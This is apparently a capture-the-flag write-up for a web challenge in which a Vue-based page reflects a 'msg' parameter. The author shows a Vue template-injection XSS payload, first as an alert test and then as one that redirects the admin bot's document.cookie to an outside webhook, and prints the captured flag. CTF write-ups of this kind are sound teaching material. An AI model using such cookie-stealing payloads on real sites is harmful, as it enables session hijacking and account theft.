


# Welcome Page
> Flag is on the admin cookie.

## About the Challenge
Given 2 websites, a plain website and the admin bot, we will probably do XSS to get the admin cookies. If you open the link, a plain website will appear and the words `Welcome!` this happens because there is 1 GET parameter named `msg` whose value we can change.


## How to Solve?
When viewing the source code, it can be identified that this website uses Vue. And after searching especially on the [portswigger website](https://portswigger.net/web-security/crosssitescripting/cheat-sheet) I found a working payload which is

```
http://103.152.242.116:8413/?msg={{_openBlock.constructor('alert(1)')()}}
```



After confirming that an alert appears, using a webhook on the XSS payload so that we can get the admin cookies

```
http://103.152.242.116:8413/?msg={{_openBlock.constructor('location.href="https://webhook/?test="+document.cookie')()}}
```

Send the XSS payload to the admin and get the cookies



```
ARA2023{sUp3r_s3cr3t_c00k13_1s_h3r3}
```